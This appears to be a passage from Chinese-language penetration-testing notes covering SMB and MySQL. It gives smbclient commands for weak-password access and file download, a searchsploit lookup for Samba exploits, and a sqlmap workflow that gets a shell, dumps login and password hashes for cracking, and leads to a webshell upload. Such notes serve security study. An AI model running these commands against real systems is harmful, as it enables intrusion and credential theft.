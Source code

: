 * 查看 http 服务下有没有隐藏文件，通过 robots.txt 查看相关目录

### 3.3 针对 SMB 协议服务的 139 和 445 端口

1. 使用空口令，弱口令尝试登陆，并查看敏感文件，下载查看

    ```shell
    smbclient -L IP # L: 列出IP共享的文件夹
    smbclient '\\IP\share$' # 列出共享文件夹下的文件
    get 敏感文件 # 下载文件，看看有没有密码（一般配置文件会有账密码）
    ```

2. 针对 SMB 协议远程溢出漏洞进行分析

    ```shell
    searchsploit samba版本号 # 版本号通过 nmap 扫描出来，把Samba和后面的版本文字填上去
    ```

### 3.4 针对 mysql

* 在有数据提交的地方，比如登陆界面，都试一下 sql 注入

```shell
# 在有账号密码的前提
mysql -h 192.168.1.1 -u Admin -p # 回车输入密码

# -----------在用 zap 检查到有sql 注入漏洞之后-------
# 先看看能不能直接获取 shell
sqlmap -u url -os-shell
# 1. 查看这个注入点有没有漏洞
sqlmap -u "http://192.168.1.1/cat.php?id=3"
# 2. 查看数据库名
sqlmap -u "http://192.168.1.1/cat.php?id=3" --dbs
# 3. 返回这个数据库的数据表
sqlmap -u "http://192.168.1.1/cat.php?id=3" -D "数据库名" --tables
# 4. 查看表有哪些字段
sqlmap -u "http://192.168.1.1/cat.php?id=3" -D "数据库名" -T "表名" --columns
# 5. 查看表的字段对应的值
sqlmap -u "http://192.168.1.1/cat.php?id=3" -D "数据库名" -T "表名" -C "字段值1，字段值2 ，，，" --dump
# 6. 上一步，字段值1，2填写 login,password 会返回对应子用户名和密码的 hash ，破解后登入该数据库上传 webshell。

# -----------如果用工具搜索不到有sql漏洞，也应该试一下注入-------
# 1. 在浏览器访问登录页面
# 2. 设置代理，`127.0.0.1 端口选择没有用的端口`
# 3. 打开 Burp Suite，在 Proxy --> option 选项卡里的 proxy 配置监听的端口（和浏览器设置的一样），IP就是（127.0.0.1）
# 4. 勾选上要监听的 IP
# 5. 打开 Proxy --> Intercept 选项卡里，准备查看
# 6. 在浏览器随便输入 账号密码 然后提交。
# 7. 此时，Burp Suite 就会输出信息。（RAW下的信息）复制下来，保存到 request.raw
# 8. 输入以下命令,如果成功的话，会输出相应的数据库名字
sqlmap -r path/to/your/request.raw --level 5 --risk 3 --dbs --dbms mysql --batch # 参数 5，3 是速度
# 9. 查看数据库的数据表。
sqlmap -r request.raw --level 5 --risk 3 -D 数据库名 --tables --dbms mysql --batch
# 10. 查看数据表包含哪些字段
sqlmap -r request.raw --level 5 --risk 3 -D 数据库名 -T 数据表 --columns --dbms mysql --batch
# 11. 查看数据表的字段值对应的值
sqlmap -r request.raw --level 5 --risk 3 -D 数据库名 -T 数据表 -C 字段值1，字段值2... --dump --dbms mysql --batch
```
